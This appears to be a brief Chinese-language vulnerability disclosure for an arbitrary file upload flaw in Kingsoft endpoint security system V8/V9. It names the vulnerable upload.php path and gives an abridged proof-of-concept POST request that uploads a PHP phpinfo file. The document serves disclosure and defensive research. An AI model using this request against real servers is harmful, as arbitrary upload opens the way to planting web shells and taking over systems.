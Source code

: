 # 金山终端安全系统 V8/V9存在文件上传漏洞

程序下载链接 ：

V8：http://duba-011.duba.net/netversion/Package/KAVNETV8Plus.iso%20%22v8%E4%B8%8B%E8%BD%BD%22

V9：http://duba-011.duba.net/netversion/Package/SecManage.iso%20%22v9%E4%B8%8B%E8%BD%BD%22

漏洞点:/tools/manage/upload.php

在tools目录下的mange下存在一个upload.php。该文件可导致任意文件上传

PoC：

```
POST /tools/manage/upload.php HTTP/1.1
HOST: target
...
<?php phpinfo(); ?>
```

ref：

https://forum.butian.net/share/76